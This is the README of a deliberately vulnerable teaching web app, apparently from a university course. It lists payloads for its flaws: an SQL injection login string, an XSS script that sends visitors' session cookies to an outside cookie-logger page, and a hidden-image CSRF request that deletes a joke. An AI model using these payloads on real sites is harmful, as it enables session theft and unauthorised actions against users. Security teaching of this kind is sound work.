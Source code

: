 # Introduction

This is a simple application that demonstrates a few typical web application vulnerablities. The example covers:

* an SQL injection vulnerability,
* an XSS vulnerability,
* a CSRF vulnerability,
* an improper storage of sensitive data,
* an improper use of HTTP methods,
* and improperly secured URLS.

# SQL Injection 

As a username, provide `student' OR '`

# XSS 

XSS attack. This entry forces the visitor's browser to send its session cookie to the attacker's page.

```html
<script>
var request = new XMLHttpRequest();
request.open("GET", "http://student-lem.fri.uni-lj.si/xss-logger/upload-cookies.php?" + document.cookie, true);
request.send(null);
</script>
```

# CSRF 

CSRF attack. This entry forces the visitor's browser to issue a GET request to the server. If the visitor is logged-in, the request will successfully access a protected resource -- will delete a joke.

```html
<img src="joke/delete?id=5&delete_confirmation=on" width="0" height="0" />
```

